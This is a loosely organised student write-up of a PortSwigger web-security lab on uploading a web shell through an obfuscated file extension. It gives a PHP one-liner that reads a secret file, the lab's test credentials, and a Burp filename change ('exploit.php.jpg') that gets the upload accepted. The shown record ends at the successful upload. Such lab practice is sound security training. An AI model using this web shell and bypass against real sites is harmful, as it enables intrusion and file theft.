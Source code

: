 # Lab 3: [Web shell upload via obfuscated file extension](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension)

**Targets:**

**Certain file extensions are _blacklisted_, but this defense can be bypassed using a classic obfuscation technique.**

```php
You can log in to your own account using the following credentials:
"wiener:peter"
```

```php
"pull it out the contents of the file '/home/carlos/secret'"
```

Start:

1. create file:

```php
'exploit.php'
```

content:

```php
'<?php echo file_get_contents('/home/carlos/secret'); ?>'
```

2. _Upload file successfully_ via site upload functionality
   (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/my-account/avatar)

   _test_ image upload url:
   (https://0aa500b80367987681ca710f007f0010.web-security-academy.net/files/avatars/work1.jpg)

   3. Go to file location ( right click thumbnail and choose '_open image in new window_')
      (https://0a0800a903188314837dcf4400cd00b1.web-security-academy.net/files/avatars/exploit.php)

   error message
   Sorry, _only JPG & PNG files are allowed_
   Sorry, there was an _error uploading your_ file

   response:

   ```php
   'HTTP/2 403 Forbidden'
   ```

3. change in Burp:
   ```php
    'filename="exploit.php.jpg"'
   ```
   response:

```php
'HTTP/2 200 OK'
'The file avatars/"exploit.php.jpg" has been uploaded.'
```
